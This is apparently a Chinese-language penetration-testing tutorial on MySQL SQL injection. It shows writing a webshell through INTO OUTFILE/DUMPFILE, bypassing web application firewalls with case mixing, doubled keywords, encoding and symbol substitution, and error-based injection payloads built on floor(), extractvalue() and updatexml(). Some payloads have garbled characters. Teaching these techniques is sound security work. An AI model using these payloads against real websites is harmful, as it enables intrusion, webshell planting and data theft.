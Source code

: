 **php**
### out_file&dump_file
在dnslog注入中我们了解到了mysql数据库中可以通过load_file加载读取服务器上的文件，与之对应的则是通过out_file和dump_file读取文件。写入webshell需要具有几个条件：当前数据库用户为root、具有写入文件的权限、拥有当前站点的绝对路径。
通过sql注入写webshell的具体用法：
select  into outfile 'C:/phpStudy/WWW/1.php'
select  into dumpfile 'C:/phpStudy/WWW/1.php'
二者的区别在于，outfile函数可以导出多行，而dumpfile只能导出一行数据；outfile函数在将数据写到文件里时有特殊的格式转换，而dumpfile则保持原数据格式。
在写文件的时候，因为是在传参中写入的，总会被一些单引号，美元符等具有特殊意义的字符影响，这时候我们能够通过将需要传输的文件内容进行16进制转换再传入数据库中执行，mysql数据库会解析16进制的内容，那么就可以不受特殊字符影响写入webshell了。
## SQL注入如何绕过waf
在进行渗透测试的时候，经常会遇到被waf拦截的情况。waf，也就是网站防火墙，专业术语是Web应用防护系统，即Web Application Firewall。Waf对于渗透测试人员来说，也就是规则，通俗点就是这个结构:
If(xxx){
拦截！
}else{
通过
}
所以只需要让它同意我的操作，即绕过了waf。通常的waf一般可以有以下绕过方法：
#### 1、大小写绕过
?id=1 and UnIoN sElEcT 1,2,3
?id=1 OrDeR By 1
#### 2、双写绕过
一些防护措施只进行一次，可以通过双写关键字的方法绕过。
Id=1 ununionion selselectect 1,2,3 删除一次--> union select
Id=1 ororderder bbyy	1	删除一次--> order by
#### 3、编码绕过
如果检测的是关键字，那么经过编码即可绕过
URL全编码：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316953774-1c273318-df76-4e94-a6d4-3a05b0aa9057.png#align=left&display=inline&height=85&margin=%5Bobject%2Object%5D&name=image.png&originHeight=170&originWidth=554&size=32436&status=done&style=none&width=277)
十六进制（使用时需要在转换后的字符串前加0x，作为告诉数据库这里是十六进制的标识）：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316957860-0c58f7b6-544c-4125-9937-5e35e01e675f.png#align=left&display=inline&height=120&margin=%5Bobject%2Object%5D&name=image.png&originHeight=240&originWidth=554&size=17636&status=done&style=none&width=277)
#### 4、基本符号替换
用&&替换and
用||替换or
用/**/替换空格
URL栏中用+替换空格
#### 5、报错注入替换函数绕过
有的时候，网站只检测一部分热门的函数，不检测一些冷门的函数。下面以select user() 为例，给出几种报错注入的payload：
1.floor()
id = 1 and (select 1 from  (select count(_),concat(user(),floor(rand(0)_2))x from  information_schema.tables group by x)a)
2. extractvalue()
id = 1 and (extractvalue(1, concat(0x5c,(select user()))))
id = 1 and extractvalue(1,concat(char(126),database()))
3. updatexml()
id = 1 and (updatexml(0x3a,concat(1,(select user())),1))
